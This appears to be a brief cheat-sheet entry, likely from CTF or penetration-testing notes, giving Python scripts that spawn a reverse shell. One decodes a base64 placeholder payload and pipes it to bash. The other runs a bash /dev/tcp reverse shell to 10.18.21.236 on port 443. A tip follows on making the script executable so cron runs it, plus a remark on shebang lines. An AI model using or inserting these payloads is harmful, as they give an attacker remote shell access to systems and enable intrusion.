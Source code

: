 

```python
#!/usr/bin/env python3

import os
os.system('echo base64EncodedRevshellsScriptHere|base64 -d|bash')
```

```python
#!/usr/bin/env python3

import os

os.system("touch /tmp/testfile")
os.system("echo 'bash -i >& /dev/tcp/10.18.21.236/443 0>&1'|bash")
```

Don't forget to make sure your script file is executable `chmod +x [script]`
cron won't run without both # and +x

Instead of hardcoding the path to the Python interpreter, `#!/usr/bin/python3`, use `#!/usr/bin/env python3` as it makes the script more flexible and able to adapt to different environments where the interpreter might be located in a different directory.

